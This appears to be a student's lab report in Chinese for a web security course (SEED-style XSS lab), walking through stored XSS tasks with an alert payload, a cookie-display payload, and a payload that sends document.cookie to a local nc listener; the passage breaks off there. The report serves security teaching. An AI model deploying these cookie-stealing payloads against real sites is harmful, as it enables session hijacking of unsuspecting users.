 # CS315 Lab11

Name: 王奕童

SID: 11910104

## 3 Lab Tasks

### 3.2 Task 1: Posting a Malicious Message to Display an Alert Window

我使用的是boby的账号，密码是seedboby。

将Brief description加入如下js代码：

```JavaScript
<script>alert("XSS; This is edited by 11910104.");</script>
```

![image](https://user-images.githubusercontent.com/64548919/206890364-205267e8-516e-446a-bc1e-421b62441d89.png)

可以看到弹窗已被显示。

![image](https://user-images.githubusercontent.com/64548919/206890406-4781b0ab-6cfc-446c-9fea-1d79f3faa6d9.png)

### 3.3 Task 2: Posting a Malicious Message to Display Cookies

和Task 1的流程基本一样，插入js代码为：

```JavaScript
<script>alert("Cookies by 11910104, "+document.cookie);</script>
```

![image](https://user-images.githubusercontent.com/64548919/206890473-e1af182a-02fd-488a-8063-d42428450243.png)

可以看到弹窗显示cookie：

![image](https://user-images.githubusercontent.com/64548919/206890484-0709b166-964d-4491-9b2d-bb1632ebad9d.png)

### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

打开端口监听：

```shell
nc -l 5555 -v
```

![image](https://user-images.githubusercontent.com/64548919/206890627-9ee00188-b7f0-4502-b582-60bf684b0f43.png)

在brief description中插入js代码为：

```JavaScript
<script>alert("Cookies by 11910104, "+document.cookie);document.write("<img src=http://127.0.0.1:5555?c=" + escape(document.cookie) + ">"); </script>
```
